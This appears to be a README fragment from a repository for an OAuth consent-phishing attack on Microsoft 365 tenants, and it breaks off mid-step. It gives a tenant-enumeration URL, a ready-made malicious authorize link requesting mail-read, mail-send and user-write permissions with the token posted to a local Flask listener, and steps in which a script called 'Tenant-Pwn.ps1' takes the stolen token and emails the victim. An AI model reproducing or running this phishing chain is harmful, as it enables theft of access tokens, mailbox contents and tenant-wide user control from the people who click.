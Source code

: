 # How to enumerate any tenant easily courtesy of microsoft
https://login.microsoftonline.com/corpstrike.com/v2.0/.well-known/openid-configuration

# Run Flask Server
Start the server, dummy

# First baddie redirect
https://login.microsoftonline.com/838f6c73-507b-4674-b621-d8dd0009208d/oauth2/v2.0/authorize?client_id=84ace87e-3f92-47ad-89d3-08281190051b&response_type=token&redirect_uri=http://localhost:5000/callback&scope=https%3A%2F%2Fgraph.microsoft.com%2FMail.Read%20https%3A%2F%2Fgraph.microsoft.com%2FMail.Send%20https%3A%2F%2Fgraph.microsoft.com%2FMailboxSettings.ReadWrite%20https%3A%2F%2Fgraph.microsoft.com%2FUser.ReadWrite.All&response_mode=form_post&prompt=consent

1. User clicks above
2. Grants consent to Self
3. Flask catches access token
4. Tenant-Pwn.ps1 catches the credentials, sends the user an email to wait for app escalation and then